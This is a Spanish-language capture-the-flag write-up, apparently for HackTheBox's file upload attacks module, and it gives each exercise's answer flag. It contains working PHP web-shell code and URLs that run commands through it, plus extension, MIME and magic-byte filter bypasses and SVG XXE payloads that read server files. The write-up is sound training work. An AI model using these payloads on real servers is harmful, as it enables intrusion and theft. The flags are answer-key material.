# File Upload Attacks

## Basic explotation

### Absent Validation 

1. **Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**

Visitamos la siguiente URL:

```
154.57.164.65:31508
```

<p align="center"> 

</p>

Lo siguiente que haremos es crear un archivo **.php** con el siguiente contenido:

```php
<?php system('hostname'); ?>
```

>Cuando alguien entra a una página web que tiene esa línea de código, el servidor procesa el PHP, ejecuta el comando `hostname` en su sistema operativo y **muestra en la pantalla del usuario el nombre de ese servidor**.

Una vez subido el archivo de forma exitosa, nos iremos a la siguiente ruta para visualizar el contenido.

```
http://154.57.164.65:31508/uploads/cmd.php
```

<p align="center"> 

</p>

answer: **fileuploadsabsentverification**

### Upload Exploitation

1. **Try to exploit the upload feature to upload a web shell and get the content of /flag.txt**

Preparamos el siguiente código y lo guardamos en un archivo **.php**

<p align="center"> 

</p>

Una vez subido exitosamente el archivo, visitamos la siguiente url y añadimos los siguiente 
**?cmd=**

```
http://154.57.164.65:31508/uploads/cmd1.php?cmd=whoami
```

<p align="center"> 

</p>

```
http://154.57.164.65:31508/uploads/cmd1.php?cmd=ls+/
```

<p align="center"> 

</p>

```
http://154.57.164.65:31508/uploads/cmd1.php?cmd=cat+/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{g07_my_f1r57_w3b_5h3ll}**

## Bypassing Filters

### Client-Side Validation

1. **Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)**

Básicamente para resolver este ejercicio tendremos que interceptar la página. Preparamos el siguiente archivo.

<p align="center"> 

</p>

```
http://154.57.164.67:31143/
```

<p align="center"> 

</p>

Luego interceptamos la subida con burpsuite

<p align="center"> 

</p>

Lo interceptamos en el **Repeater** y cambiamos el nombre del archivo de **cmd.png** a **cmd.php** y le damos a **Send** la subida ha sido exitosa.

<p align="center"> 

</p>

Luego observando el código fuente de la página...

<p align="center"> 

</p>

Descubrimos la siguiente ruta **/profile_images/** donde se guardan las "fotos", Por último usaremos la herramienta **curl**, para conseguir la flag.txt

```
curl http://154.57.164.80:30516/profile_images/cmd.php?cmd=ls+/
curl http://154.57.164.80:30516/profile_images/cmd.php?cmd=cat+/flag.txt
```

<p align="center"> 

</p>

answer:**HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}**

### Blacklist Filters

1. **Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt"**

E interceptamos la subida con burpsuite y lo mandamos al **intruder**.

<p align="center"> 

</p>

Siempre estará marcado la casilla **payload encoding** por tanto la tendremos que desmarcar como aparecé en la imagen, luego la extension de la imagen que hemos subido debería de quedar de la siguiente manera "`cmd$.png$`" y a la derecha debemos de cargar el siguiente diccionario **/usr/share/seclists/Discovery/Web-Content/web-extensions.txt** e iniciamos el ataque.

<p align="center"> 

</p>

Después, pregunto a la IA que extensión acepta una webshell y me dió el siguiente listado:

<p align="center"> 

</p>

ahora el siguiente paso es comprobar que extensiones se subieron correctamente, e ir probando, en mi caso concreto el que me funciono fue la extension **.phar**

```
curl http://154.57.164.78:31096/profile_images/cmd.phar?cmd=id
curl http://154.57.164.78:31096/profile_images/cmd.phar?cmd=ls+/
curl http://154.57.164.78:31096/profile_images/cmd.phar?cmd=cat+/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{1_c4n_n3v3r_b3_bl4ckl1573d}**

### Whitelist Filters

1. **The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"**

El ejercicio se hace exactamente como el ejercicio anterior solo que en esta ocasión es posible evitar estos filtros utilizando extensiones dobles como por ejemplo: **cmd.php.png** Por tanto, el contenido del archivo sería:

<p align="center"> 

</p>

Subimos el archivo y lo interceptamos con burpsuite y mandamos la solicitud al **intruder**

<p align="center"> 

</p>

Siempre estará marcado la casilla **payload encoding** por tanto la tendremos que desmarcar como aparecé en la imagen, luego la extension de la imagen que hemos subido debería de quedar de la siguiente manera "`cmd$.php$.png`" y a la derecha debemos de cargar el siguiente diccionario **/usr/share/seclists/Discovery/Web-Content/web-extensions.txt** e iniciamos el ataque.

<p align="center"> 

</p>

Como hemos dicho, comprobamos que se ha subido correctamente los archivos que aceptan una webshell, y probamos.

<p align="center"> 

</p>

```
curl http://154.57.164.73:32121/profile_images/cmd.phar.png?cmd=id
curl http://154.57.164.73:32121/profile_images/cmd.phar.png?cmd=ls+/
curl http://154.57.164.73:32121/profile_images/cmd.phar.png?cmd=cat+/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{1_wh173l157_my53lf}**

### Type Filters

1. **The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"**

En esta actividad tendremos que modificar ligeramente el payload para crear la webshell.

<p align="center"> 

</p>

Cuando iba modificando mi petición en Burp Suite paso a paso, estoy haciendo un descarte lógico:

1. Al intentar subir el archivo malicioso inicial (`cmd.php`), el sistema mostró el error `Extension not allowed`. Esto confirmó la existencia de una lista negra en el servidor.

<p align="center"> 

</p>

2. También nos salio errores como **only images are allowed** a lo que me llevo a pensar que si o sí tenia que llevar el archivo una doble extensión

<p align="center"> 

</p>

3. **Prueba de Doble Extensión y Bloqueo Genérico**

>"Se procedió a probar un bypass de lista negra utilizando una doble extensión (ej. `shell.jpg.php` o `shell.php.jpg`). Sin embargo, el servidor continuó rechazando el archivo con el mensaje genérico `Only images are allowed` y  `extension not allowed`.

>En este punto, la falta de un error específico de extensión o de tipo MIME indicaba dos posibles escenarios:

1. El filtro de extensiones era una **lista blanca estricta** (solo permitía que el archivo terminara estrictamente en extensiones de imagen como `.png` o `.jpg`).
2. El backend estaba realizando una verificación profunda del contenido del archivo (**MIME-Type / Magic Bytes**), detectando que, independientemente del nombre, el cuerpo del archivo contenía texto plano (`<?php ... ?>`) y no los bytes de una estructura gráfica."

3. **Deducción Lógica y Solución Híbrida.**

>"Dado que el servidor exigía de forma estricta que el archivo fuera una imagen (debido al error `Only images are allowed`) pero mi objetivo requería la ejecución de código PHP, llegué a la conclusión de que la única vía posible era **unificar ambos requisitos en un solo archivo**.

>Para romper este callejón sin salida, apliqué el concepto de un **archivo políglota** utilizando el truco de las cabeceras GIF (`GIF89a;`). Al anteponer estos caracteres al código PHP:

- Satisfeché el filtro de contenido del servidor, ya que los primeros bytes (_Magic Bytes_) identificaban falsamente al archivo como una imagen legítima ante el inspector del backend.
- Mantuve la estructura del Web Shell intacta para su posterior ejecución."

<p align="center"> 

</p>

4. Por tanto la combinación final en burpsuite quedaría así:

<p align="center"> 

</p>

Siempre estará marcado la casilla **payload encoding** por tanto la tendremos que desmarcar como aparecé en la imagen, luego la extension de la imagen que hemos subido debería de quedar de la siguiente manera "`cmd$.png$.png$`" y a la derecha debemos de cargar el siguiente diccionario **/usr/share/seclists/Discovery/Web-Content/web-extensions.txt** e iniciamos el ataque.

<p align="center"> 

</p>

El código **HTTP 200** solo confirma que el archivo se subió con éxito al servidor, pero **no garantiza una Web Shell**. Para que el ataque funcione, no basta con que el archivo sea aceptado; el servidor web debe estar configurado para **interpretar y ejecutar** esa extensión específica como código (por ejemplo, `.phtml`,  `.php5`, `phar`, etc.).

```
curl http://154.57.164.75:30552/profile_images/cmd.png.phtml?cmd=id
curl http://154.57.164.75:30552/profile_images/cmd.png.phtml?cmd=ls+/
curl http://154.57.164.75:30552/profile_images/cmd.png.phtml?cmd=cat+/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{m461c4l_c0n73n7_3xpl0174710n}**

## Other Upload Attacks

### Limited File Uploads

1. **The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"**

En este ejercicio tendremos que preparar un archivo **.svg** que se creará con el siguiente código.

```bash
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]> <svg>&xxe;</svg>
```

Luego subimos el archivo **.svg** a la pagina web pero interceptandolo con **burpsuite** y trasladamos la solicitud a **repeater**

<p align="center"> 

</p>

Luego nos iremos a la pagina web y encontramos la flag tanto en la pagina como en el código fuente.

<p align="center"> 

</p>

```
curl http://154.57.164.77:30190/
```

<p align="center"> 

</p>

answer: **HTB{my_1m4635_4r3_l37h4l}

2. **Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)**

En este ejercicio tendremos que preparar un archivo **.svg** que se creará con el siguiente código.

```bash
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg>
```

Luego subimos el archivo **.svg** a la pagina web pero interceptándolo con **burpsuite** y trasladamos la solicitud a **repeater**

<p align="center"> 

</p>

Luego, en el código fuente de la pagina obtendremos base64 del contenido **upload.php**

```
curl http://154.57.164.77:30190/
```

<p align="center"> 

</p>

Obtenemos el codigobase64

```
PD9waHAKJHRhcmdldF9kaXIgPSAiLi9pbWFnZXMvIjsKJGZpbGVOYW1lID0gYmFzZW5hbWUoJF9GSUxFU1sidXBsb2FkRmlsZSJdWyJuYW1lIl0pOwokdGFyZ2V0X2ZpbGUgPSAkdGFyZ2V0X2RpciAuICRmaWxlTmFtZTsKJGNvbnRlbnRUeXBlID0gJF9GSUxFU1sndXBsb2FkRmlsZSddWyd0eXBlJ107CiRNSU1FdHlwZSA9IG1pbWVfY29udGVudF90eXBlKCRfRklMRVNbJ3VwbG9hZEZpbGUnXVsndG1wX25hbWUnXSk7CgppZiAoIXByZWdfbWF0Y2goJy9eLipcLnN2ZyQvJywgJGZpbGVOYW1lKSkgewogICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgIGRpZSgpOwp9Cgpmb3JlYWNoIChhcnJheSgkY29udGVudFR5cGUsICRNSU1FdHlwZSkgYXMgJHR5cGUpIHsKICAgIGlmICghaW5fYXJyYXkoJHR5cGUsIGFycmF5KCdpbWFnZS9zdmcreG1sJykpKSB7CiAgICAgICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgICAgICBkaWUoKTsKICAgIH0KfQoKaWYgKCRfRklMRVNbInVwbG9hZEZpbGUiXVsic2l6ZSJdID4gNTAwMDAwKSB7CiAgICBlY2hvICJGaWxlIHRvbyBsYXJnZSI7CiAgICBkaWUoKTsKfQoKaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bInRtcF9uYW1lIl0sICR0YXJnZXRfZmlsZSkpIHsKICAgICRsYXRlc3QgPSBmb3BlbigkdGFyZ2V0X2RpciAuICJsYXRlc3QueG1sIiwgInciKTsKICAgIGZ3cml0ZSgkbGF0ZXN0LCBiYXNlbmFtZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bIm5hbWUiXSkpOwogICAgZmNsb3NlKCRsYXRlc3QpOwogICAgZWNobyAiRmlsZSBzdWNjZXNzZnVsbHkgdXBsb2FkZWQiOwp9IGVsc2UgewogICAgZWNobyAiRmlsZSBmYWlsZWQgdG8gdXBsb2FkIjsKfQo=
```

Pasamos el **codigobase64** a **textoplano**

```
echo "PD9waHAKJHRhcmdldF9kaXIgPSAiLi9pbWFnZXMvIjsKJGZpbGVOYW1lID0gYmFzZW5hbWUoJF9GSUxFU1sidXBsb2FkRmlsZSJdWyJuYW1lIl0pOwokdGFyZ2V0X2ZpbGUgPSAkdGFyZ2V0X2RpciAuICRmaWxlTmFtZTsKJGNvbnRlbnRUeXBlID0gJF9GSUxFU1sndXBsb2FkRmlsZSddWyd0eXBlJ107CiRNSU1FdHlwZSA9IG1pbWVfY29udGVudF90eXBlKCRfRklMRVNbJ3VwbG9hZEZpbGUnXVsndG1wX25hbWUnXSk7CgppZiAoIXByZWdfbWF0Y2goJy9eLipcLnN2ZyQvJywgJGZpbGVOYW1lKSkgewogICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgIGRpZSgpOwp9Cgpmb3JlYWNoIChhcnJheSgkY29udGVudFR5cGUsICRNSU1FdHlwZSkgYXMgJHR5cGUpIHsKICAgIGlmICghaW5fYXJyYXkoJHR5cGUsIGFycmF5KCdpbWFnZS9zdmcreG1sJykpKSB7CiAgICAgICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgICAgICBkaWUoKTsKICAgIH0KfQoKaWYgKCRfRklMRVNbInVwbG9hZEZpbGUiXVsic2l6ZSJdID4gNTAwMDAwKSB7CiAgICBlY2hvICJGaWxlIHRvbyBsYXJnZSI7CiAgICBkaWUoKTsKfQoKaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bInRtcF9uYW1lIl0sICR0YXJnZXRfZmlsZSkpIHsKICAgICRsYXRlc3QgPSBmb3BlbigkdGFyZ2V0X2RpciAuICJsYXRlc3QueG1sIiwgInciKTsKICAgIGZ3cml0ZSgkbGF0ZXN0LCBiYXNlbmFtZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bIm5hbWUiXSkpOwogICAgZmNsb3NlKCRsYXRlc3QpOwogICAgZWNobyAiRmlsZSBzdWNjZXNzZnVsbHkgdXBsb2FkZWQiOwp9IGVsc2UgewogICAgZWNobyAiRmlsZSBmYWlsZWQgdG8gdXBsb2FkIjsKfQo=" | base64 -d
```

El contenido del archivo **upload**, la respuesta lo encontraremos en el parametro **target_dir**

```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}
```

answer: **./images/**

## Skills Assesment

### Skills Assessment - File Upload Attacks

1. **Try to exploit the upload form to read the flag found at the root directory "/".**

Para resolver este ejercicio la clave importante es leer el contenido **upload.php** ya que sino, nos encontraremos con un motón de limitaciones. a lo largo del curso hemos aprendiendo a leer archivo mediante una imagen **.svg** con el siguiente código. 

```php
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg>
```

Por otro lado, también descubrí que la imagen que se suba debe ser una imagen 100%, por tanto, me cree una imagen vacia, sin nada por ahora. con el siguiente comando:

```
convert -size 1x1 xc:white vacia.jpg
```

Luego, esta misma imagen, la subimos en la pagina web

```
http://154.57.164.75:30196/contact/
```

<p align="center"> 

</p>

**Importante**, para que capturemos bien el código le tenemos que dar al botón **VERDE** no a al azul.

Interceptamos la subida con **burpsuite** y lo llevamos al **repeater** 

<p align="center"> 

</p>

Comprobamos que no nos pone ninguna restricción, ahora lo que quiero hacer a continuación es poner código **.svg** para conseguir leer el archivo **upload.php** mediante una doble extension, ya que acepta archivo **.jpg.** Por tanto, el nombre del archivo quedaría **vacia.svg.jpg** y contenido y el contenido sería así:

```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg>
```

<p align="center"> 

</p>

Ahora con el siguiente comando conseguimos obtener el contenido **upload.php** en texto plano.

```
echo "PD9waHAKcmVxdWlyZV9vbmNlKCcuL2NvbW1vbi1mdW5jdGlvbnMucGhwJyk7CgovLyB1cGxvYWRlZCBmaWxlcyBkaXJlY3RvcnkKJHRhcmdldF9kaXIgPSAiLi91c2VyX2ZlZWRiYWNrX3N1Ym1pc3Npb25zLyI7CgovLyByZW5hbWUgYmVmb3JlIHN0b3JpbmcKJGZpbGVOYW1lID0gZGF0ZSgneW1kJykgLiAnXycgLiBiYXNlbmFtZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bIm5hbWUiXSk7CiR0YXJnZXRfZmlsZSA9ICR0YXJnZXRfZGlyIC4gJGZpbGVOYW1lOwoKLy8gZ2V0IGNvbnRlbnQgaGVhZGVycwokY29udGVudFR5cGUgPSAkX0ZJTEVTWyd1cGxvYWRGaWxlJ11bJ3R5cGUnXTsKJE1JTUV0eXBlID0gbWltZV9jb250ZW50X3R5cGUoJF9GSUxFU1sndXBsb2FkRmlsZSddWyd0bXBfbmFtZSddKTsKCi8vIGJsYWNrbGlzdCB0ZXN0CmlmIChwcmVnX21hdGNoKCcvLitcLnBoKHB8cHN8dG1sKS8nLCAkZmlsZU5hbWUpKSB7CiAgICBlY2hvICJFeHRlbnNpb24gbm90IGFsbG93ZWQiOwogICAgZGllKCk7Cn0KCi8vIHdoaXRlbGlzdCB0ZXN0CmlmICghcHJlZ19tYXRjaCgnL14uK1wuW2Etel17MiwzfWckLycsICRmaWxlTmFtZSkpIHsKICAgIGVjaG8gIk9ubHkgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgIGRpZSgpOwp9CgovLyB0eXBlIHRlc3QKZm9yZWFjaCAoYXJyYXkoJGNvbnRlbnRUeXBlLCAkTUlNRXR5cGUpIGFzICR0eXBlKSB7CiAgICBpZiAoIXByZWdfbWF0Y2goJy9pbWFnZVwvW2Etel17MiwzfWcvJywgJHR5cGUpKSB7CiAgICAgICAgZWNobyAiT25seSBpbWFnZXMgYXJlIGFsbG93ZWQiOwogICAgICAgIGRpZSgpOwogICAgfQp9CgovLyBzaXplIHRlc3QKaWYgKCRfRklMRVNbInVwbG9hZEZpbGUiXVsic2l6ZSJdID4gNTAwMDAwKSB7CiAgICBlY2hvICJGaWxlIHRvbyBsYXJnZSI7CiAgICBkaWUoKTsKfQoKaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bInRtcF9uYW1lIl0sICR0YXJnZXRfZmlsZSkpIHsKICAgIGRpc3BsYXlIVE1MSW1hZ2UoJHRhcmdldF9maWxlKTsKfSBlbHNlIHsKICAgIGVjaG8gIkZpbGUgZmFpbGVkIHRvIHVwbG9hZCI7Cn0K" | base64 -d
```

Leyendo archivo **upload.php**

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```

Para poder evitar restricciones como la balcklist, whitelist y la Validación MIME es crucial entender el código.

Explicación del código .php

<p align="center"> 

</p>

- **`$target_dir`**: Define la carpeta donde se guardará el archivo en el servidor.
- **`$fileName`**: Aquí ocurre la magia del renombrado.
    - `basename($_FILES["uploadFile"]["name"])` toma el nombre original del archivo que subiste (ej. `vacio.jpg`).
    - `date('ymd')` saca la fecha actual del servidor (AñoMesDía, ej: `260609`).
    - Los junta con un guion bajo. Si subes `vacio.jpg`, el backend lo convierte internamente en `260609_vacio.jpg`.
- **`$target_file`**: Une la ruta y el nombre final: `./user_feedback_submissions/260609_test.jpg`.

<p align="center"> 

</p>

Aquí el código intenta averiguar _qué tipo_ de archivo es, pero usando dos fuentes distintas:

- **`$contentType`**: Es lo que envía tu navegador en la cabecera HTTP (`Content-Type: image/jpeg`). **Es 100% manipulable** por el usuario interceptando la petición con Burp Suite.
- **`$MIMEtype`**: Es una función segura de PHP (`mime_content_type`). Lee el archivo temporal real almacenado en el servidor y analiza sus **Magic Bytes** (los primeros caracteres internos). Si el archivo empieza por `GIF89a`, dirá que es un GIF; si no tiene estructura de imagen, dirá que es texto plano.

<p align="center"> 

</p>

- **¿Cómo funciona?**: La función `preg_match` busca un patrón de texto dentro de `$fileName`.
- **El Regex**: `/.+\.ph(p|ps|tml)/` significa: _"Busca cualquier cosa que contenga un punto (`.`) seguido de `php`, `phps` o `phtml`"_.
- **Conclusión**: Si intentas subir `cmd.php`, `cmd.phtml` o incluso `cmd.php.jpg`, el script encuentra la coincidencia, imprime "Extension not allowed" y detiene la ejecución (`die()`).
- **La Grieta**: El desarrollador se olvidó de otras extensiones ejecutables de PHP muy conocidas, como **`.phar`** (PHP Archive). Como `.phar` no coincide con `php`, `phps` o `phtml`, **esta lista negra no la detecta**.

>En esta parte detectamos que la extensión **.phar** es la vulnerable.

<p align="center"> 

</p>

- **¿Cómo funciona?**: El signo `!` al principio significa **"Si NO coincide con el patrón..."**. Si el archivo no cumple el requisito, se bloquea.
- **El Regex**: `/^.+\.[a-z]{2,3}g$/` se traduce así desde el punto de vista técnico:
    - `^.+` = Debe empezar por cualquier carácter.
    - `\.` = Debe contener un punto literal.
    - `[a-z]{2,3}` = Después del punto, debe haber 2 o 3 letras minúsculas de la 'a' a la 'z'.
    - `g$` = La **última letra** del nombre del archivo tiene que ser obligatoriamente una **`g`**.
- **Conclusión**: Extensiones como `.jpg`, `.png`, o `.jpeg` terminan en `g` y tienen entre 2 y 3 letras tras el punto, por lo que pasan el filtro. Tu propuesta de `.phar.jpg` o `.phz.jpg` funcionaba aquí porque el nombre termina estrictamente en `.jpg` (cumpliendo el patrón de la `g` al final).

>Hasta aquí hemos concluido que la combinatoria de doble extensión `.phar.jpg` o `.phz.jpg` es vulnerable

<p align="center"> 

</p>

- **¿Cómo funciona?**: Hace un bucle (`foreach`) para revisar las dos variables que extrajo en el paso 2 (`$contentType` y `$MIMEtype`). Ambas deben cumplir la regla.
- **El Regex**: `/image\/[a-z]{2,3}g/` busca que el tipo empiece por `image/`, seguido de 2 o 3 letras, y termine en **`g`** (ej: `image/jpeg` o `image/png`).
- **Conclusión**:
    - Engañar al `$contentType` es fácil (lo editas en Burp Suite).
    - Engañar al `$MIMEtype` requiere que el archivo **tenga estructura real de imagen**. Si usas una imagen vacía (como la que creamos con `convert` o metiendo los bytes de un GIF), la función `mime_content_type` devolverá legítimamente `image/jpeg` o `image/gif`. Como ambos terminan en `g`, el bucle se completa con éxito sin activar el `die()`.

<p align="center"> 

</p>

- **Tamaño**: Comprueba que pese menos de 500 KB.
- **`move_uploaded_file`**: Si todo lo anterior ha sido un "éxito", el servidor mueve el archivo desde su ubicación temporal a la ruta definitiva (`$target_file`) y lo muestra en pantalla con `displayHTMLImage`.

Por tanto, reusamos la imagen **vacia.jpg** que no tiene ningún código y le metemos para obtener una reverseshell 

<p align="center"> 

</p>

Luego en **burpsuite** lo interceptamos mediante **repeater** y cambiamos el nombre a **vacia.phar.jpg** para que nos lo acepte

<p align="center"> 

</p>

El comando que tendríamos que dejar preparado sería tal que asi:

```
http://154.57.164.75:30196/contact/user_feedback_submissions/260609_vacia.phar.jpg?cmd=id
```

<p align="center"> 

</p>

```
http://154.57.164.75:30196/contact/user_feedback_submissions/260609_vacia.phar.jpg?cmd=ls+/
```

<p align="center"> 

</p>

Obtenemos el nombre de la carpeta donde reside la flag **flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt**

```
http://154.57.164.75:30196/contact/user_feedback_submissions/260609_vacia.phar.jpg?cmd=cat+/flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
```

<p align="center"> 

</p>

answer: **HTB{m4573r1ng_upl04d_3xpl0174710n}**